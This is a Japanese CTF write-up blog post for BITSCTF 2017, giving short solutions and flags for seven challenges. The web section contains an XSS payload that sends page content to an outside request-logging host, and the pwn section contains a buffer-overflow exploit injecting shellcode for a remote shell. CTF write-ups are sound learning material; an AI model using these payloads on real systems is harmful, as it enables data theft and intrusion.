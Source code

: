 ```yaml
---
layout: post
title: BITSCTF 2017 の write-up
categories: [ctf]
date: 2017-02-06 07:00:00 +0900
---
```


チーム Harekaze で [BITSCTF 2017](https://bitsctf.bits-quark.org/) に参加しました。

最終的にチームで 520 点を獲得し、順位は 18 位 (得点 275 チーム中) でした。うち、私は 7 問を解いて 280 点を入れました。

以下、解いた問題の write-up です。

## [web 60] Message the admin

admin にメッセージが投げられるサービスですが、どうやらメッセージの閲覧ページに XSS があるようです。

```html
<script>(new Image).src='http://requestb.in/xxx?'+(document.body.innerHTML.match(/[0-9A-Z]+\{.+\}/ig)[0])</script>
```

を投げるとフラグが来ました。

```
BITSCTF{hsr_1s_n0t_cr3ative}
```

## [rev 80] Riskv and Reward

バイナリエディタでバイナリを眺めていると、`0x1040` から文字列と、`0x1080` からそれに対応する数値の配列がありました。

```python
s = open('riskv_and_reward', 'rb').read()
a = s[0x1040:0x1080]
b = s[0x1080:0x1100]
print ''.join(chr(a[x]) for x in b[::4])
```

を実行するとフラグが出ました。

```
BITSCTF{s0m3_r1sc5_4r3_w0rth_1t}
```

## [crypto 30] Enigma

いろいろ試していると暗号文はどうやら `0x06` と xor されているようだと分かります。

```python
def xor(s, t):
  return ''.join(chr(ord(c) ^ ord(d)) for c, d in zip(s, t))

cs = []
for x in range(1, 7):
  cs.append(open('encrypted/{}e'.format(x), 'rb').read())

for c in cs:
  print repr(xor(c, '\x06' * len(c)))
```

を実行するとフラグが出ました。

```
BITCTF{Focke-Wulf Fw 200}
```

## [for 10] Black Hole

strings で出てきた文字列を base64 でデコードするだけです。

```
BITCTF{S5 0014+81}
```

## [for 50] Tom and Jerry

USB のパケットをキャプチャしている pcap が渡されます。まずデスクリプタを確認すると、ベンダー ID が `0x056a` (ワコム)、プロダクト ID が `0x00d4` (CTL-460) と分かります。

どういうプロトコルを使っているのかググってみると、[USB Protocol - linuxwacom](http://linuxwacom.sourceforge.net/wiki/index.php/USB_Protocol#Bamboo_Stylus_Event_Packets) というページがヒットしました。あとはこれを見ながらスクリプトを書くだけです。

```python
from scapy.all import *
from PIL import Image, ImageDraw

pcap = rdpcap('Cat.pcap')
w, h = 1500, 1500
im = Image.new('RGB', (w, h))
draw = ImageDraw.Draw(im)

for p in pcap:
  buf = bytes(p)

  data = buf[0x40:]
  if len(data) < 9:
    continue

  x = data[2] | (data[3] << 8)
  y = data[4] | (data[5] << 8)
  x, y = x // 8, y // 8
  pressure = data[6] | (data[7] << 8)

  draw.ellipse((x-1, y-1, x+1, y+1), fill=(pressure, pressure, pressure))

im.save('result.png')
```

[![BITSCTF{THE_CLOSER_YOU_LOOK_THE_LESS_YOU_SEE}](../images/2017-02-06_1.png)](../images/2017-02-06_1.png)

```
BITSCTF{THE_CLOSER_YOU_LOOK_THE_LESS_YOU_SEE}
```

## [pwn 20] Command_Line

やるだけ。

```python
from pwn import *
context(os='linux', arch='amd64')
s = remote('bitsctf.bits-quark.org', 1337)
buf = int(p.recvline(), 16)
payload = ''
payload += 'A' * 24
payload += p64(buf+32)
payload += '\x90'
payload += asm(shellcraft.sh())
s.sendline(payload)
s.interactive()
s.close()
```

```
BITSCTF{b451c_57r416h7_f0rw4rd_5h3llc0d1n6}
```

## [pwn 30]	Random Game

バイナリを読むと `srand(time(NULL))` をしていることが分かります。

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
int main(void) {
  int i;
  srand(time(NULL));
  for (i = 0; i < 30; i++) {
    printf("%d\n", rand() & 0xf);
  }
  return 0;
}
```

これをコンパイルして `./rand | nc bitsctf.bits-quark.org 1330` でフラグが出ました。

```
BITSCTF{54m3_533d_54m3_53qu3nc3}
```

## 感想

[for 50] Gh0st in the machine はキーボードで入力されていた文字列だけ見ていて、結局解けませんでした。問題文の `BITS(WORDS.IN.CAPS)` をフラグは大文字でという意味で読んでいたのですが、まさか CapsLock のことだったとは…。

[web 80] Showcasing the admin は解きたかった問題で、いろいろ悩んでいたのですが解けませんでした。
